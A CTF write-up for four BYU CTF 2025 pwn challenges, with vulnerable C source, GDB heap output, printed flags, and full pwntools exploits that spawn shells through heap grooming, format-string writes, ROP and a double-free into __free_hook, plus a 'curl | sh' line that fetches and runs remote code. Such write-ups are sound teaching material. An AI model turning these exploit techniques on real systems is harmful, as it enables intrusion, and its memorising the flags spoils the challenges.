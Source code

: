 ---
title: '[WRITE UP] - BYU CTF 2025'
description: 'Yet another CTF wrtite up'
image: '../../img/cover_photo_wup_imresizer.png'
date: 2025-05-26
tags: ['2025', 'PWN', 'WriteUp']
authors: ['kdot']
draft: false
pinned: false
---


## Minecraft Youtuber

### Challenge Information

<Challenge
  authors={["overllama"]}
  category="pwn"
  description="Oh boy, I hit a million subscribers on YouTube, what do I do now?"
  flag="byuctf{th3_3xpl01t_n4m3_1s_l1t3r4lly_gr00m1ng}"
>
</Challenge>

### Solution

<details id="src">
<summary>Souce code</summary>
<p>
```c title="minecraft.c"
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
#include <unistd.h>

__attribute__((constructor)) void flush_buf() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

typedef struct {
    long uid;
    char username[8];
    long keycard;
} user_t;

typedef struct {
    long mfg_date;
    char first[8];
    char last[8];
} nametag_t;

long UID = 0x1;
char filename[] = "flag.txt";
user_t* curr_user = NULL;
nametag_t* curr_nametag = NULL;

void init() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}


void register_user() {
    printf("WELCOME!! We're so excited to have you here! Tell us your username / tag and we'll get you set up with access to the facilities!\n");
    curr_user = (user_t*)malloc(sizeof(user_t)); // 0x18 bytes
    curr_user->uid = UID++;
    printf("Please go ahead an type your username now: \n");
    read(0, curr_user->username, 8);
}

void log_out() {
    free(curr_user);
    curr_user = NULL;

    if (curr_nametag != NULL) {
        free(curr_nametag);
        curr_nametag = NULL;
    }
}

int print_menu() {
    int choice;
    printf("What would you like to do now?\n");
    printf("1. Register a new user\n");
    printf("2. Learn about the Time Keepers\n");
    printf("3. Collect gear\n");
    printf("4. Elevate to super user\n");
    printf("5. Change characters\n");
    printf("6. Leave\n");
    // 7 is try to free loki but it's not technically an option, you have to be rebellious to get there
    scanf("%d", &choice);
    if (choice < 1 || choice > 7) {
        printf("Invalid choice. You broke the simulation\n");
        return 0;
    }
    return choice;
}

int main(void) {
    init();
    srand(time(NULL)); int gear;
    printf("Hello! My name is Miss Minutes, and I'll be your helper here at the TVA!!\nHow about we get you oriented first!\nThe only rule is that we under no circumstances can free Loki... he's locked up for a reason!\n");

    int input = 1;
    while (input) {
        switch (input) {
            case 1: // register a new user
                register_user();
                break;
            case 2:
                printf("The Time Keepers are the three beings who created the TVA and the Sacred Timeline. They are powerful beings who exist at the end of time and are responsible for maintaining the flow of time.\n");
                break;
            case 3: // collect gear
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }
                gear = rand() % 5 + 1;
                if (curr_nametag != NULL) {
                    free(curr_nametag);
                }
                switch (gear) {
                    case 1:
                        printf("You have received a Time Twister! This powerful device allows you to manipulate time and space.\n");
                        break;
                    case 2:
                        printf("You have received a Name Tag! Please input your first and last name:\n");
                        curr_nametag = (nametag_t*)malloc(sizeof(nametag_t));
                        curr_nametag->mfg_date = (long)time(NULL);
                        read(0, curr_nametag->first, 8);
                        read(0, curr_nametag->last, 8);
                        break;
                    case 3:
                        printf("You have received a Time Stick! This device allows you to reset the flow of time in a specific area.\n");
                        break;
                    case 4:
                        printf("You have received a Time Loop! This device allows you to trap someone in a time loop.\n");
                        break;
                    case 5:
                        printf("You have received a Time Bomb! This device allows you to create a temporal explosion.\n");
                        break;
                }
                break;
            case 4:
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }
                if (curr_user->uid >= 0x600000) {
                    printf("Well, everything here checks out! Go ahead and take this key card!\n");
                    curr_user->keycard = 0x1337;
                } else {
                    printf("Unfortunately, it doesn't look like you have all the qualifications to get your own key card! Stay close to Miss Minutes and she should be able to get you anywhere you need to go...\n");
                }
                break;
            case 5:
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }
                log_out();
                printf("You have been logged out.\n");
                printf(". "); sleep(1);
                printf(". "); sleep(1);
                printf(". \n"); sleep(1);
                register_user();
                break;
            case 6:
                input = 0;
                break;
            case 7:
                if (curr_user == NULL) {
                    printf("You must register a user first!\n");
                    break;
                }

                // Uninitialized memory read
                if (curr_user->keycard == 0x1337) {
                    printf("You have freed Loki! In gratitude, he offers you a flag!\n");
                    FILE* flag = fopen(filename, "r");
                    if (flag == NULL) {
                        printf("Flag file not found. Please contact an admin.\n");
                        return EXIT_FAILURE;
                    } else {
                        char ch;
                        while ((ch = fgetc(flag)) != EOF) {
                            printf("%c", ch);
                        }
                    }
                    fclose(flag);
                    exit(0);
                    break;
                } else {
                    printf("EMERGENCY EMERGENCY UNAUTHORIZED USER HAS TRIED TO FREE LOKI!\n");
                    printf("Time police rush to the room where you stand in shock. They rush you away, take your gear, and kick you back to your own timeline.\n");
                    log_out();
                    input = 0;
                    break;
                }
        }

        if (input != 0) {
            input = print_menu();
        }
    }
    return input;
}
```
</p>
</details>

Look at the code above, it pretty long. But we just need to focus on `case 7` where we can get the flag if we have the keycard. And there is the bug `Uninitialized data use` in the code. We can `fengshui` the heap to get the flag. What I do is just let the program run until it shows us `Tag`, then create a new nametage which `curr_nametag->last` is contain the value `0x1337`

```sh title="GDB"
0x555555559290  0x0000000000000000      0x0000000000000021      ........!.......
0x5555555592a0  0x0000000000000001      0x000000000a6e776b      ........kwn.....
0x5555555592b0  0x0000000000000000      0x0000000000000021      ........!.......
0x5555555592c0  0x000000006833e68f      0x000000000a6e776b      ..3h....kwn.....
0x5555555592d0  0x0000000000001337      0x0000000000020d31      7.......1.......         <-- Top chunk
```

You can see that value `0x1337` is in the top chunk, and when you free it it will be there, because malloc just free the chunk `0x20` (include metadata). Then just `register_user` and get the flag

```py title="exploit.py" collapse={1-36}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./minecraft', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
# init-gef-bata
brva 0x171C
brva 0x1462
brva 0x1739
brva 0x147C
brva 0x18B0
brva 0x171C
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, aslr=False)

# ==================== EXPLOIT ====================
p = start()

ru(b"username now: \n")
sl(b"kwn")

line = b""
while b"Tag" not in line:
    ru(b"Leave\n")
    sl(b"3")
    line = p.recvline()

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()

sl(b'kwn')
sl(p64(0x1337))

sl(b'5')
sla(b'now: \n', b'kwn')

ru(b"Leave\n")
sl(b"7")

interactive()
```
---
## GOAT

### Challenge Information

<Challenge
  authors={["Legoclones"]}
  category="pwn"
  description="To prevent excessive brute forcing for those experiencing a skissue, I made sure to add a PoW."
  flag="byuctf{n0w_y0u're_the_g0at!}"
>
</Challenge>

### Solution

There many things here but I think we just need to focus on the challenge `binary`

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _QWORD v4[2]; // [rsp+0h] [rbp-C0h] BYREF
  char s1[64]; // [rsp+10h] [rbp-B0h] BYREF
  char s[104]; // [rsp+50h] [rbp-70h] BYREF
  unsigned __int64 v7; // [rsp+B8h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  v4[0] = 1413566279LL;
  v4[1] = 0LL;
  snprintf(
    s,
    0x5FuLL,
    "Welcome to the %s simulator!\nLet's see if you're the %s...\nWhat's your name? ",
    (const char *)v4,
    (const char *)v4);
  printf(s);
  fgets(s1, 32, stdin);
  snprintf(s, 0x5FuLL, "Are you sure? You said:\n%s\n", s1);
  printf(s);
  fgets(s1, 16, stdin);
  if ( !strncmp(s1, "no", 2uLL) )
  {
    puts("\n?? Why would you lie to me about something so stupid?");
  }
  else
  {
    snprintf(s1, 0x3FuLL, "\nSorry, you're not the %s...", (const char *)v4);
    puts(s1);
  }
  return 0;
}
```

There is a `Format String Bug` here, so we can use that to get the shell. But the program will exit after that, so we need to make a infinite loop to keep the program running. After that leak the address and write our ROP chain to saved RIP using `Format String Bug`.

```py title="exploit.py" collapse={1-72}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep
import re

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./goat_patched', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
# init-gef-bata
# b *0x401278
b *0x4012B0
# b *0x40129F
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv)

def solve_pow():
    banner = ru(b"solution: ")
    log.debug(f"POW banner:\n{banner!r}")

    m = re.search(b"sh -s (s\\.[^\\s]+)", banner)
    if not m:
        raise ValueError("Fail")
    salt = m.group(1).decode()
    log.info(f"{salt}")

    cmd = f"curl -sSfL https://pwn.red/pow | sh -s {salt}"
    solution = check_output(["bash", "-lc", cmd]).strip()
    log.info(f"{solution!r}")

    sl(solution)

def fmt_w(addr, saved_rip):
    target1 = addr & 0xffff
    payload = f"%{target1-0x18}c%10$hn".encode()
    payload = payload.ljust(0x10, b"a")
    payload += p64(saved_rip)
    sl(payload)
    sl("A")

    target2 = (addr >> 16) & 0xffff
    payload = f"%{target2-0x18}c%10$hn".encode()
    payload = payload.ljust(0x10)
    payload += p64(saved_rip+2)
    sl(payload)
    sl("A")

    target3 = addr >> 32
    payload = f"%{target3-0x18}c%10$hn".encode()
    payload = payload.ljust(0x10, b"a")
    payload += p64(saved_rip+4)
    sl(payload)
    sl("A")

# ==================== EXPLOIT ====================
p = start()

solve_pow()

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()

payload = f"%{0x11f0-0x18}c%11$hn".encode() + b"|%31$p" + b"|%30$p"
payload = payload.ljust(0x18, b"a")
payload += p64(exe.got.puts)
sl(payload)
ru(b"|")
address = rl()[:-1].split(b"|")
print(address)
libc.address = int(address[0], 16) - 0x2A1CA
stack = int(address[1][:14], 16)
saved_rip = stack - 0x98

success('libc base @ %#x', libc.address)
success('stack leak @ %#x', stack)
success('saved rip @ %#x', saved_rip)

rop = ROP(libc)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = pop_rdi + 1
binsh = next(libc.search(b"/bin/sh\x00"))

fmt_w(pop_rdi, saved_rip)
fmt_w(binsh, saved_rip+8)
fmt_w(ret, saved_rip+16)
fmt_w(libc.sym.system, saved_rip + 24)

payload = f"%{0x133c-0x18}c%10$hn".encode()
payload = payload.ljust(0x10)
payload += p64(exe.got.puts)
sl(payload)
sl("A")

interactive()
```
---
## Game of Yap

### Challenge Information
<Challenge
  authors={["deltabluejay"]}
  category="pwn"
  description="yap yap yap."
  flag="byuctf{heres_your_yap_plus_certification_c13abe01}"
>
</Challenge>

### Solution

The binary have Buffer Overflow bug and we can use that to call the function that give us a binary address. After that use `0x1243: mov rdi, rsi ; ret ;` to control the first argument of printf which can able us to perform some `Format String` attack

```py title="exploit.py" collapse={1-31}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

# context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./game-of-yap_patched', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
# init-gef-bata
brva 0x0123A
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv)

# ==================== EXPLOIT ====================
p = start()

offset = 0x108

payload = b'A'*(offset) + p8(0x80)

sleep(0.5)
sa(b'chance...\n',payload)
exe.address = hexleak(rl()[:-1]) - 0x1210

success(b'pie base @ %#x', exe.address)

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()


mov_rdi_rsi = exe.address + 0x1243

payload = b'%27$p'.ljust(offset, b'\0') + p64(mov_rdi_rsi) + p64(exe.plt.printf) + p64(exe.sym.play)
sleep(0.5)
sa(b'try...\n', payload)

libc.address = hexleak(rb(16)) - 0x2a28b
success('libc base @ %#x', libc.address)

rop = ROP(libc)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = pop_rdi + 1

payload = b'A'*offset + p64(pop_rdi) + p64(next(libc.search(b'/bin/sh\0')))+ p64(libc.sym.system)

sleep(0.5)
s(payload)

interactive()
```
---
## TCL

### Challenge Information

<Challenge
  authors={["Legoclones"]}
  category="pwn"
  description="I created my own Tiny Config Language and even a little parser for it - you should try it out!"
  flag="byuctf{ok4y_y34h_th4t_d3fin1t3ly_suck3d}"
>
</Challenge>

### Solution

This challenge was challenge 1 solve during CTF. And I couldn't solve it during that time, but luckily my friend was the one who did first blood this challenge and after the tournament he told me there was a way without using Race Coditions. Shout out to @Lieu

<details id="src">
<summary>Souce code</summary>
<p>
```c title="tcl.c"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdbool.h>
#include <ctype.h>
#include <pthread.h>
#include <unistd.h>

enum {
    TYPE_FLOAT = 0,
    TYPE_INT,
    TYPE_STRING,
    TYPE_BOOL,
};

struct str_object {
    char *value;
    unsigned int type;
    unsigned int refcount;
};

struct int_object {
    unsigned long value;
    unsigned int type;
    unsigned int refcount;
};

struct float_object {
    double value;
    unsigned int type;
    unsigned int refcount;
};

struct bool_object {
    unsigned long value;
    unsigned int type;
    unsigned int refcount;
};

void* objects[100];

__attribute__((constructor)) void flush_buf() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

void win() {
    system("/bin/sh");
    exit(0);
}

int create_string_obj(char *value) {
    struct str_object* obj = (struct str_object*)objects[0];
    unsigned int i = 0;

    // if the object already exists, just increase the refcount
    while (obj != NULL) {
        if ((obj->type == TYPE_STRING) && (strcmp(obj->value, value) == 0)) {
            printf("Added refcount to %s\n", obj->value);
            obj->refcount++;
            return 0;
        }
        if (i >= 99) {
            puts("object array is full");
            return -1;
        }
        i++;
        obj = (struct str_object*)objects[i];
    }

    // otherwise, create a new object
    obj = (struct str_object*)malloc(sizeof(struct str_object));
    if (obj == NULL) {
        puts("malloc failed");
        exit(1);
    }
    obj->value = strdup(value);
    if (obj->value == NULL) {
        puts("strdup failed");
        exit(1);
    }
    obj->type = TYPE_STRING;
    obj->refcount = 1;
    objects[i] = obj;
    return 0;
}

int create_int_obj(unsigned long value) {
    struct int_object* obj = (struct int_object*)objects[0];
    unsigned int i = 0;

    // if the object already exists, just increase the refcount
    while (obj != NULL) {
        if ((obj->type == TYPE_INT) && (obj->value == value)) {
            printf("Added refcount to %lu\n", obj->value);
            obj->refcount++;
            return 0;
        }
        if (i >= 99) {
            puts("object array is full");
            return -1;
        }
        i++;
        obj = (struct int_object*)objects[i];
    }

    // otherwise, create a new object
    obj = (struct int_object*)malloc(sizeof(struct int_object));
    if (obj == NULL) {
        puts("malloc failed");
        exit(1);
    }
    obj->value = value;
    obj->type = TYPE_INT;
    obj->refcount = 1;
    objects[i] = obj;
    return 0;
}

int create_float_obj(double value) {
    struct float_object* obj = (struct float_object*)objects[0];
    unsigned int i = 0;

    // if the object already exists, just increase the refcount
    while (obj != NULL) {
        if ((obj->type == TYPE_FLOAT) && (obj->value == value)) {
            printf("Added refcount to %lf\n", obj->value);
            obj->refcount++;
            return 0;
        }
        if (i >= 99) {
            puts("object array is full");
            return -1;
        }
        i++;
        obj = (struct float_object*)objects[i];
    }

    // otherwise, create a new object
    obj = (struct float_object*)malloc(sizeof(struct float_object));
    if (obj == NULL) {
        puts("malloc failed");
        exit(1);
    }
    obj->value = value;
    obj->type = TYPE_FLOAT;
    obj->refcount = 1;
    objects[i] = obj;
    return 0;
}

int create_bool_obj(unsigned long value) {
    struct bool_object* obj = (struct bool_object*)objects[0];
    unsigned int i = 0;

    // if the object already exists, just increase the refcount
    while (obj != NULL) {
        if ((obj->type == TYPE_BOOL) && (obj->value == value)) {
            printf("Added refcount to %lu\n", obj->value);
            obj->refcount++;
            return 0;
        }
        if (i >= 99) {
            puts("object array is full");
            return -1;
        }
        i++;
        obj = (struct bool_object*)objects[i];
    }

    // otherwise, create a new object
    obj = (struct bool_object*)malloc(sizeof(struct bool_object));
    if (obj == NULL) {
        puts("malloc failed");
        exit(1);
    }
    obj->value = value;
    obj->type = TYPE_BOOL;
    obj->refcount = 1;
    objects[i] = obj;
    return 0;
}

void clear_objects() {
    for (unsigned int i = 0; i < 100; i++) {
        if (objects[i] != NULL) {
            // set refcount to 0 for the garbage collector to free
            struct str_object* obj = (struct str_object*)objects[i];
            obj->refcount = 0;
        }
    }
}

void parse_tcl() {
    char buf[0x100];
    bool valid = true;
    bool started = false;

    while (1) {
        // clear the buffer
        memset(buf, 0, sizeof(buf));

        // we use fgets because it breaks on \n, which means the config line is done
        fgets(buf, sizeof(buf), stdin);

        // remove the newline character
        size_t len = strlen(buf);
        if (len > 0 && buf[len - 1] == '\n') {
            buf[len - 1] = '\0';
        }
        // check for empty line
        if (strlen(buf) == 0) {
            continue;
        }

        if (started == false) {
            // check for the start of the config
            if (strcmp(buf, "#START") != 0) {
                puts("You need to start with #START");
                continue;
            }
            started = true;
            continue;
        }

        if (strcmp(buf, "#END") == 0) {
            break;
        }

        // check for ' = '
        char * delim = strstr(buf, " = ");
        if (delim == NULL) {
            puts("Invalid line, no ' = ' found");
            valid = false;
            continue;
        }
        *delim = '\0'; // replace ' = ' with '\0' to split the string
        delim += 3; // move past the ' = '
        // at this point, buf contains the key name and delim points to the value

        // ensure first character is not a digit
        if (isdigit(buf[0])) {
            puts("Key name cannot start with a digit");
            valid = false;
            continue;
        }

        // check character set in keyname
        for (char *p = buf; *p != '\0'; p++) {
            if (!isalnum(*p) && *p != '_') {
                puts("Key name can only contain alphanumeric characters and underscores");
                valid = false;
                continue;
            }
        }

        // create an object to store key name
        if (create_string_obj(buf) != 0) {
            puts("create_string_obj failed");
            valid = false;
            continue;
        }

        // CHECK THE VALUE NOW

        // inspecting the first character of the value will tell us what type it is
        if (isdigit(delim[0])) {
            // it's an int or float
            char *endptr;
            unsigned long value = strtoul(delim, &endptr, 10);
            if (*endptr == '.') {
                // it's a float
                double fvalue = strtod(delim, NULL);
                if (create_float_obj(fvalue) != 0) {
                    puts("create_float_obj failed");
                    valid = false;
                    continue;
                }
            } else {
                // it's an int
                if (create_int_obj(value) != 0) {
                    puts("create_int_obj failed");
                    valid = false;
                    continue;
                }
            }
        }

        else if (delim[0] == 't' || delim[0] == 'f') {
            if (strcmp(delim, "true") != 0 && strcmp(delim, "false") != 0) {
                puts("Invalid boolean value");
                valid = false;
                continue;
            }

            // it's a bool
            unsigned long value = (delim[0] == 't') ? 1 : 0;
            if (create_bool_obj(value) != 0) {
                puts("create_bool_obj failed");
                valid = false;
                continue;
            }
        }

        else if (delim[0] == '"') {
            // it's a string
            delim++; // move past the opening quote
            char *end = strchr(delim, '"');
            if (end == NULL) {
                puts("Invalid string value, no closing quote found");
                valid = false;
                continue;
            }
            *end = '\0'; // replace closing quote with null terminator
            if (create_string_obj(delim) != 0) {
                puts("create_string_obj failed");
                valid = false;
                continue;
            }
        }

        else {
            // invalid value type
            puts("Invalid value type");
            valid = false;
            continue;
        }
    }

    // check if the config is valid
    if (valid) {
        puts("Config is valid");
    } else {
        puts("Config is invalid");
    }

    // set the refcount of all objects to 0
    clear_objects();
}

void gc() {
    unsigned int indexes[100];
    unsigned int count = 0;

    while (1) {
        memset(indexes, 0, sizeof(indexes));
        count = 0;
        sleep(5);

        // store the indexes of all objects with refcount 0
        for (unsigned int i = 0; i < 100; i++) {
            if (objects[i] != NULL) {
                struct str_object* obj = (struct str_object*)objects[i];
                if (obj->refcount == 0) {
                    indexes[count++] = i;
                }
            }
        }

        // free them
        for (unsigned int i = 0; i < count; i++) {
            struct str_object* obj = (struct str_object*)objects[indexes[i]];
            if (obj != NULL) {
                if (obj->type == TYPE_STRING)
                    free(obj->value);
                free(obj);         // Use-After-Free
                usleep(5 * 1000); // sleep for 5 milliseconds - we don't want to hog the CPU!
            }
        }

        // set the object pointer to NULL
        for (unsigned int i = 0; i < count; i++) {
            struct str_object* obj = (struct str_object*)objects[indexes[i]];
            // double check refcount is 0 before setting to NULL
            if (obj != NULL && obj->refcount == 0) {
                objects[indexes[i]] = NULL;
            }
        }
    }
}

int main() {
    alarm(60); // set a timeout for the program
    printf("%p\n", &alarm);

    // spawn garbage collector
    pthread_t tid;
    pthread_create(&tid, NULL, (void*)gc, NULL);

    while (1) {
        puts("Enter your TCL file contents below:");
        puts("=========================================");
        parse_tcl();
    }

    return 0;
}
```
</p>
</details>

The code is quite long but we will pay attention to some key points as follows:
- There is `Use-After-Free` in the `gc` function, this function will run every `5s` and it will free any objects that have `refcount == 0`
- In the `create_string_obj` function, `strdup` will let us customize the size of a malloc chunk through the length of the string

With the idea of ​​triggering `malloc_consolidate()` to move the chunks in fastbin to unsortedbin, from a singly linked list to a doubly linked list, we will be able to cause Double Free. Below is a demo program for that

```c title="demo.c"
// gcc -o test test.c -g -no-pie
#include <stdio.h>
#include <stdlib.h>

void main()
{
    void *a[10], *b[10];

    for (int i = 0; i < 2; i++)
        a[i] = malloc(0x18);

    for (int i = 2; i < 10; i++)
    {
        a[i] = malloc(0x18);
        b[i] = malloc(0x88);
    }

    for (int i = 0; i < 2; i++)
        free(a[i]);

    for (int i = 2; i < 10; i++)
    {
        free(b[i]);
        free(a[i]);
    }
}
```
And once we free all the chunk we have, check `bins` again and we can see some speical things

```sh title="GDB"
pwndbg> bins
tcachebins
0x20 [  7]: 0x4055a0 —▸ 0x4054f0 —▸ 0x405440 —▸ 0x405390 —▸ 0x4052e0 —▸ 0x4052c0 —▸ 0x4052a0 ◂— 0
0x90 [  7]: 0x405720 —▸ 0x405670 —▸ 0x4055c0 —▸ 0x405510 —▸ 0x405460 —▸ 0x4053b0 —▸ 0x405300 ◂— 0
fastbins
0x20: 0x4057a0 ◂— 0
unsortedbin
all: 0x405640 —▸ 0x4056f0 —▸ 0x7ffff7f9cce0 (main_arena+96) ◂— 0x405640 /* '@V@' */
smallbins
empty
largebins
empty
```
This is done by [this code](https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L4648-L4674). When the `0x80` chunk consolidates with the top chunk, it continues to check that chunk for the new size with `FASTBIN_CONSOLIDATION_THRESHOLD` and to make sure that this chunk size is larger, `malloc_consolidate()` will be called. With that in mind, here is my exploit.

```py title="exploit.py" collapse={1-41, 65-112}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./tcl_patched', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
# init-gef-bata
set resolve-heap-via-heuristic force
set follow-fork-mode parent
b *0x40174F
b *0x4018AC
b *0x400EFA
b *0x400DB3
b *0x400D86
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("0", 5004)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, aslr=False)

def debug():
    gdb.attach(p, gdbscript=gdbscript)
    pause()

# ==================== EXPLOIT ====================
p = start()

libc.address = hexleak(rl()[:-1]) - libc.sym.alarm
success('libc base @ %#x', libc.address)

ru(b'=========================================\n')

sl(b'#START')
for i in range(8):
    chunk = str(i).encode() * 0x87
    sl(b'A = "' + chunk + b'"')
sl(b'#END')

sleep(6)

sl(b'#START')
payload = b"B" * 0x27 + b' = "' + b'8' + b'"'
sl(payload)
sl(b"#END")

sleep(6)

'''
0x4f297 execve("/bin/sh", rsp+0x40, environ)
+----------+-----------------------------------------+
| Result   | Constraint                              |
+==========+=========================================+
| SAT      | address rsp+0x50 is writable            |
+----------+-----------------------------------------+
| SAT      | rsp & 0xf == 0                          |
+----------+-----------------------------------------+
| UNKNOWN  | {"sh", "-c", r12, NULL} is a valid argv |
+----------+-----------------------------------------+

0x4f29e execve("/bin/sh", rsp+0x40, environ)
+----------+-------------------------------------------------------+
| Result   | Constraint                                            |
+==========+=======================================================+
| SAT      | address rsp+0x50 is writable                          |
+----------+-------------------------------------------------------+
| SAT      | rsp & 0xf == 0                                        |
+----------+-------------------------------------------------------+
| SAT      | rcx == NULL || {rcx, "-c", r12, NULL} is a valid argv |
+----------+-------------------------------------------------------+

0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
+----------+------------------------------------------------------+
| Result   | Constraint                                           |
+==========+======================================================+
| SAT      | address rsp+0x50 is writable                         |
+----------+------------------------------------------------------+
| SAT      | rsp & 0xf == 0                                       |
+----------+------------------------------------------------------+
| SAT      | rcx == NULL || {rcx, rax, r12, NULL} is a valid argv |
+----------+------------------------------------------------------+

0x4f302 execve("/bin/sh", rsp+0x40, environ)
+----------+---------------------------------------------------------------------------------------------+
| Result   | Constraint                                                                                  |
+==========+=============================================================================================+
| UNKNOWN  | [rsp+0x40] == NULL || {[rsp+0x40], [rsp+0x48], [rsp+0x50], [rsp+0x58], ...} is a valid argv |
+----------+---------------------------------------------------------------------------------------------+

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
+----------+---------------------------------------------------------------------------------------------+
| Result   | Constraint                                                                                  |
+==========+=============================================================================================+
| SAT      | [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv |
+----------+---------------------------------------------------------------------------------------------+
'''

sl(b'#START')
payload = b"C" * 0x27 + b' = "' + p64(libc.sym.__free_hook-8)[:6] + b'"'
sl(payload)

payload = b"C" * 0x27 + b' = "' + b"Y" * 0x27 + b'"'
sl(payload)

payload = b"C" * 0x27 + b' = "' + b"A" * 8 + p64(libc.address + 0x10a2fc)[:6] + b'"'
sl(payload)
sl(b"#END")
sleep(6)

interactive()
```
